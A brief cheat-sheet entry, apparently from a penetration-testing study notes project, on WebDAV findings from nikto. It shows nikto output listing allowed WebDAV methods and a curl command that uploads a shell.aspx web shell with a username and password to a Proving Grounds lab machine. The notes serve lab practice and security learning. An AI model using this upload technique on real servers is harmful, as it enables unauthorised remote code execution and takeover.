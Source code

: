 Vulnerabilites that are found using nikto
*******************************************

WebDAV
#######

How it looks on nikto

.. code-block:: console

   + WebDAV enabled (COPY LOCK PROPFIND MKCOL UNLOCK PROPPATCH listed as allowed

WebDav allows you to upload a shell to the server. In this example, I am uploading a shell to the server on Proving Ground's Hutch

.. code-block:: console

   curl -T '/home/kali/shell.aspx' 'http://192.168.64.122/' -u fmcsorley:CrabSharkJellyfish192
